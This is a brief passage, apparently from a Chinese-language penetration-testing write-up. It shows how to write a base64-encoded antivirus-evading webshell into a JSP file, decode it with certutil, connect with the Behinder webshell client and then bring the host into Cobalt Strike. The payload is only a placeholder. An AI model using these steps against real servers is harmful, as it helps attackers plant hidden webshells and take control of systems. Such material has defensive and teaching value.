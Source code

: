 ```php
echo bash64编码后的免杀马 > myfile.jsp
```

![image.png](assets/1698900835-273d738ac456e6e882caa0bcfffad096.png)

使用 certutil 进行解码

```php
certutil -decode 木马相对路径 解码后的木马相对路径
```

![image.png](assets/1698900835-6f843575ef195c7baaba96c8f03bb8e6.png)

冰蝎上线并上线 CS

![image.png](assets/1698900835-03fce3f81ea6e680805d9e01198afd98.png)
